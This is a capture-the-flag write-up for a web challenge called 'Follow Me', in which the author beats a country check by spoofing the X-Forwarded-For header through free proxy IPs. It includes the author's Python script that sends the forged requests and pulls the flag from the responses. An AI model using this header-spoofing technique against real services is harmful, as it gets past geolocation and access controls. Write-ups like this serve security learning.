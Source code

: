 # WEB 150 - Follow Me

This challenge is a worldmap where you have to follow a hacker in random country.

![](img/worldmap_SHA.PNG)

To change the origin country of the request, i use the mozilla firefox add-on "AnonymoX" and saw that the message "you are in the wrong country (fr)" changed by "you are in wrong country (us)". 
So i tried to send a request by adding the header "X-Forwarded-For" and the ip address of a free proxy in the pays where the hacker is.
And thats worked !

So i wrote a python script that take 3 commands in input :
  - country : print the country where the hacker is and the number of country to before finding him
  - mv <*@ip_proxy*> : Add the "X-Forwarded-For" header with the IP specified.
  - restart : Some country don't have free proxy available
  
````python

import requests

def parse_pays(page):
	page = page.split("\n")
	to_print = ""
	for l in page:
		if '<div class="row"><div class="box" style=' in l:	
			to_print = l.split("<span>")[1]
			to_print = to_print.split('</span>')[0]
			print("You have to visit : %s " % (to_print))

def parse_visited(page):
	page = page.split("\n")
	for l in page:
		if 'Visited' in l:
			print(l)
			return l

def parse_flag(page):
	page = page.split("\n")
	for l in page:
		if 'flag' in l:
			print(l)

def parse_iswrong(page):
	page = page.split('\n')
	for l in page:
		if 'You are in the wrong country' in l:
			to_print = l.split('<p class="message">')[1]
			print(to_print)
def parse_newcountry(page):
	page = page.split("\n")
	for l in page:
		if 'You just missed the hacker, he moved to' in l:
			to_print = l.split('<p class="message">')[1]
			print(to_print)

cmd = ""
s = requests.Session()
url = "https://followme.stillhackinganyway.nl/"
r = s.get(url)
while cmd != "q":
	cmd = raw_input("$SHA: ")
	if cmd == "country":
		r = s.get(url)
		parse_pays(r.text)
		nb = parse_visited(r.text)
		parse_iswrong(r.text)	
	if "mv" in cmd:
		ip = cmd.split(" ")[1]	
		header = { 'X-Forwarded-For': '%s' % (ip)}
		r = s.get(url, headers=header)
		parse_newcountry(r.text)
		nb = parse_visited(r.text)
		if "12/12" in nb:
			parse_flag(r.text)
	if cmd == "restart":
		r = s.get("https://followme.stillhackinganyway.nl?restart=1")
		r = s.get(url)
		parse_pays(r.text)
		nb = parse_visited(r.text)
		parse_iswrong(r.text)
	
```

Then i was able to send request to the site from any country in the world where a free proxy is available.
Below the screenshot of the script running : 

![](img/write_up_SHA.PNG)
![](img/write_up_SHA2.PNG)
